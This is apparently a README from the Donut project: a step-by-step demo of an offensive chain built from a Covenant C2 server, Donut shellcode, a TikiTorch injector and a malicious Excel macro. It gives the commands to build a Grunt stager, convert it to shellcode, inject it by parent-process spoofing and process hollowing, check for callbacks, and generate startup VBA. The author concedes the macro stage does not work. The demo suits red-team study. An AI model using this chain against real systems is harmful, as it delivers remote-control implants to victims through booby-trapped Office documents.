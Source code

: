 *NOTE: THIS DEMO DOESN'T WORK! BECAUSE F$$$ THE DEMO GODS. All of my shit (and rasta's) works fine. But the other shit (made by other people) doesn't. Basically TikiTorch and Donut are fine, but I don't have any good stagers to exec Assemblies or shellcode from a macro. Could probably do it in Excel4.0 but meh. Whatever, I may fix this later but don't use it for now.*

# Overview

This demo is complicated but demonstrates the depth of tradecraft possible with Donut in combination with other tools and frameworks. The steps we will follow are:

1) Setup Covenant and prove that we can get Grunts running on the target box.
2) Create a Grunt EXE and generate shellcode that runs it.
3) Prepare a .NET Assembly based on TikiTorch by rastamouse. It will create an iexplore.exe process with a spoofed parent of explorer.exe. Then it will inject shellcode into that new process through a variant of Process Hollowing. Embed the Grunt shellcode into this Assembly.
4) Genenerate shellcode from the injector .NET Assembly.
5) Use MaliciousMacroMSBuild to generate VBA that runs this shellcode through VBA in a Microsoft Office document.
6) Add the VBA macro to an Excel document to run on startup.
7) Open the document and run the macro. Get shellz.

# Preparing Covenant

IF IT HAS NOT BEEN RUN BEFORE, start the Covenant docker image with:
```
cd /testing/Covenant/Covenant
docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -v /testing/Covenant/Covenant/Data:/app/Data covenant
```

IF IT HAS BEEN RUN BEFORE, start the Covenant docker image with:
```
docker start covenant
```

Visit `https://192.168.254.136:7443/`in your browser. Go to Listeners, set the proper Connect IP and start the Listener. Go to Launchers > Binary. Select .NET v4.0 as the target version, and generate a launcher. Download the new launcher to your Demo folder or use the one already there.

Inside the Demo folder, generate the shellcode for the Grunt:
```
.\donut.exe -f .\GruntStager.exe -e
```

The base-64 encoded copy should be in your clipboard if you are doing this on Windows. Otherwise, base64-encode the payload. For safe-keeping, keep the copy in Notepad or another text editor.

Test that the shellcode works by running:
```
.\loader.exe .\instance
```

If it worked, there should now be a new Grunt registered with Covenant and running in the `loader` process.

# Preparing the Payload

Now we will create a TikiTorch injector for the shellcode that we generated above, using the guide on Rasta's blog (https://rastamouse.me/2019/08/covenant-donut-tikitorch/).

```
cd TikiTorch-master
. .\Get-CompressedShellcode.ps1
Get-CompressedShellcode -inFile C:\...\05-Covenant\loader.bin | clip
```

Open up the TikiSpawn project in the TikiTorch solution. Open `Program.cs` and replace the compressed shellcode with that from above.

Build it as a release version. To test that it works, run the following in PowerShell:

```powershell
cd TikiTorch-master\TikiSpawn\bin\Release

[System.Reflection.Assembly]::LoadFile("C:\...\donut\demos\05-Covenant\TikiTorch-master\TikiSpawn\bin\Release\TikiSpawn.dll")

[TikiSpawn]::Flame()
```

Check Covenant to see if you have a callback.

# Generating the Shellcode

Now we will generate the shellcode for the TikiSpawn DLL that we created above.

```
cd ..\..\..\..\
.\donut.exe -f .\TikiTorch-master\TikiSpawn\bin\Release\TikiSpawn.dll -c TikiSpawn -m Flame
```

Test the shellcode with:
```
.\loader.exe .\instance
```

# Generating the Macro

```
python m3-gen.py -p shellcode -i /path/beacon.bin -o output.vba
```
